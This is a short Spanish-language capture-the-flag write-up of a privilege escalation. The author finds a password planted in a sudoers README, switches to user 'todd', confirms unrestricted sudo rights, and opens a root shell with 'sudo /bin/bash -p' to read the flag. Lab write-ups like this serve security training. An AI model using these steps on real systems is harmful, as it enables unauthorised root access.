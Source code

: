 ```bash
user@485e7954dcb8:~$ cat /etc/sudoers.d/README  
#
# As of Debian version 1.7.2p1-1, the default /etc/sudoers file created on
# installation of the package now includes the directive:
#
#       #includedir /etc/sudoers.d
#
# This will cause sudo to read and parse any files in the /etc/sudoers.d
# directory that do not end in '~' or contain a '.' character.
#
# Note that there must be at least one file in the sudoers.d directory (this
# one will do), and all files in this directory should be mode 0440.
#
# Note also, that because sudoers contents can vary widely, no attempt is
# made to add this directive to existing sudoers files on upgrade.  Feel free
# to add the above directive to the end of your /etc/sudoers file to enable
# this functionality for existing installations if you wish!
#
# Finally, please note that using the visudo command is the recommended way
# to update sudoers content, since it protects against many failure modes.
# See the man page for visudo for more information.
#
#
# The credentials for the 'todd' account is 'needle_in_a_haystack'
todd ALL = NOPASSWD: ALL
```
Vemos que el usuario todd tiene acceso a cualquier comando via sudo, vamos a logearnos como el 

```bash
user@485e7954dcb8:~$ su todd 
Password: 
todd@485e7954dcb8:/home/user$ id
uid=1005(todd) gid=1005(todd) groups=1005(todd)
```
Ya estamos como todd, checkeemos si realmente tenemos esos permisos
```bash
todd@485e7954dcb8:/home/user$ sudo -l
Matching Defaults entries for todd on 485e7954dcb8:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User todd may run the following commands on 485e7954dcb8:
    (root) NOPASSWD: ALL
todd@485e7954dcb8:/home/user$ 
```

Con esto podemos conseguir sesion como root facilmente y recuperar la flag 
```
todd@b2e38fe3090f:~$ sudo /bin/bash -p
root@b2e38fe3090f:~# id
uid=0(root) gid=0(root) groups=0(root)
root@b2e38fe3090f:~# ls /root
flag.txt
root@b2e38fe3090f:~# cat /root/flag.txt 
flag{hmmm_that_could_be_a_sneaky_backdoor}
```


